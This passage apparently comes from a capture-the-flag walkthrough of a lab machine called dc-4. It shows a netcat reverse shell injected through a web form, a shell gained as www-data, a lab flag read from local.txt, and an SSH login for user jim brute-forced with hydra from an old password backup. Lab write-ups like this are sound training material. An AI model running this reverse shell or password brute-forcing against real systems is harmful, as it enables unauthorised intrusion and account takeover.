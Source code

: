 I could:

```bash
$ sudo tcpdump -ni tun0 icmp
[sudo] password for lemmy:
Sorry, try again.
[sudo] password for lemmy:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:30:37.570037 IP 192.168.216.195 > 192.168.45.5: ICMP echo request, id 1545, seq 1, length 64
18:30:37.570054 IP 192.168.45.5 > 192.168.216.195: ICMP echo reply, id 1545, seq 1, length 64
```

Time for a reverse shell. I'll try a simple netcat connection, urlencoding the value in Burp:

`nc 192.168.45.5 443 -e /bin/bash`

I catch a shell as `www-data`:

```bash
www-data@dc-4:/usr/share/nginx/html$ whowhoami
www-data
www-data@dc-4:/usr/share/nginx/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dc-4:/usr/share/nginx/html$ hostname
dc-4
www-data@dc-4:/usr/share/nginx/html$ hostname -I
192.168.216.195
www-data@dc-4:/usr/share/nginx/html$ ls
```

I can collect `local.txt`:

```bash
www-data@dc-4:/home/jim$ ls -la
total 36
drwxr-xr-x 3 jim  jim  4096 Mar 10 08:35 .
drwxr-xr-x 5 root root 4096 Apr  7  2019 ..
-rw-r--r-- 1 jim  jim   220 Apr  6  2019 .bash_logout
-rw-r--r-- 1 jim  jim  3526 Apr  6  2019 .bashrc
-rw-r--r-- 1 jim  jim   675 Apr  6  2019 .profile
drwxr-xr-x 2 jim  jim  4096 Apr  7  2019 backups
-rw-r--r-- 1 root root   33 Mar 10 08:35 local.txt
-rw------- 1 jim  jim   528 Apr  6  2019 mbox
-rwsrwxrwx 1 jim  jim   174 Apr  6  2019 test.sh
www-data@dc-4:/home/jim$ cat local.txt
91e36270891403df4b483f7aea192090
```

Inside `backups`, I find `old-passwords.bak`. I transfer it over to my machine, take the usernames in the home directory, then use hydra to see if these passwords work on any of the users. I find jim's ssh login this way:

```bash
$ hydra -L users.txt -P old-passwords.bak ssh://192.168.216.195
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-09 18:37:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 759 login tries (l:3/p:253), ~48 tries per task
[DATA] attacking ssh://192.168.216.195:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 605 to do in 00:04h, 14 active
[STATUS] 113.33 tries/min, 340 tries in 00:03h, 421 to do in 00:04h, 14 active
[22][ssh] host: 192.168.216.195   login: jim   password: jibril04
```
